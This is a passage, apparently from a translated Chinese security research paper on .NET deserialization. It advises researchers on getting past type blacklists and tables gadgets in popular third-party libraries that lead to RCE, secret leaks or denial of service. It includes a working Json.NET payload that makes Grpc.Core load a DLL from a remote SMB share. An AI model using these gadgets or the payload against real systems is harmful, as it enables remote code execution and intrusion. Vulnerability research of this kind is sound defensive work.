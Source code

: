 当看到庞大的反序列化类型黑名单时，请不要放弃。我建议执行以下操作：

-   仔细研究此列表。确保它包含所有已知的小工具。如果发现缺失或列表中有错误（如拼写错误），深入研究可用于反序列化目标的小工具。
-   研究目标序列化器的功能：
    -   在目标产品代码库中寻找潜在的反序列化小工具，从直接的 RCE 小工具到允许操作产品功能的小工具。
    -   在产品使用的第三方库中寻找潜在的反序列化小工具（请参见下一章）。

### 2 反序列化小工具在第三方库中

我已经展示了在产品代码库中可能找到的反序列化小工具。虽然 `.NET Framework` 实现了多个可能用于滥用反序列化的类，但这已经是一个常见的知识点，供应商正在进行调整。

我决定快速查看几个流行的 .NET 第三方库（其中一些也适用于 .NET 5）。在其中我找到了一些有趣的反序列化小工具，在研究中可能会有用。以下表格呈现了这些小工具。

| **Library** | **Gadget(s) name** | **Effect** | **Brief description** |
| --- | --- | --- | --- |
| Grpc Core | UnmanagedLibrary | RCE | Remote (SMB) or local native DLL loading |
| Xunit Runner Utility | Xunit1Executor | RCE | Remote (SMB) or local mixed/special DLL loading |
| MongoDB Libmongocrypt | WindowsLibrary  <br>LinuxLibrary  <br>DarwinLibraryLoader | RCE | Remote (SMB) or local  <br>native DLL loading |
| Xunit Execution | PreserveWorkingFolder | Depends on  <br>application, may  <br>lead to RCE | Allows to modify a current  <br>directory for the process.  <br>Allows to abuse file  <br>operations based on  <br>relative paths. |
| Microsoft Azure  <br>Cosmos | QueryPartitionProvider | Serializes given  <br>object with  <br>Json.NET, leads to  <br>RCE when chained | Allows to serialize given  <br>object with Json.NET. May  <br>be chained for RCE or other  <br>effects. Will be described in  <br>a different chapter. |
| Microsoft  <br>Application Insights | FileDiagnosticsTelemetryModule | Environment  <br>variable leak +  <br>potential DoS | Allows to leak environment  <br>variable through SMB.  <br>If process runs as SYSTEM,  <br>may lead to DoS through  <br>directory creation17. |
| NLOG | CountingSingleProcessFileAppender  <br>SingleProcessFileAppender  <br>MutextMultiProcessFileAppender | Potential DoS | If process runs as SYSTEM,  <br>may lead to DoS through  <br>directory/file creation. |
| Google Apis | FileDataStore | Potential DoS | If process runs as SYSTEM,  <br>may lead to DoS through  <br>directory creation. |

表 1：第三方库中的反序列化小工具

以下子章节详细描述了这些小工具。

#### 2.1 Grpc.Core – UnmanagedLibrary 远程 DLL 加载

目标类：`Grpc.Core.Internal.UnmanagedLibrary`

适用（序列化器）：`Json.NET`、`XamlReader`、`MessagePack` 及可能其他序列化器。

适用（.NET）：.NET Framework 和 .NET>= 5

最新测试版本：2.46.6

效果：对于 Windows - 通过远程（SMB）DLL 加载或本地 DLL 加载实现远程代码执行（需要与文件写入原语链相结合）。对于 Linux/Mac - 本地 DLL 加载。

小工具（Json.NET）：

```bash
{ 
    "$type":"Grpc.Core.Internal.UnmanagedLibrary, Grpc.Core, Version=2.0.0.0,  
Culture=neutral, PublicKeyToken=d754f35622e28bad", 
    "libraryPathAlternatives":["\\\\192.168.1.100\\poc\\native.dll"] 
}
```

代码段 35 Grpc.Core UnmanagedLibrary gadget

描述： `Grpc.Core.Internal.UnmanagedLibrary` 类实现了一个公共构造函数，该构造函数接受一个字符串数组作为输入。
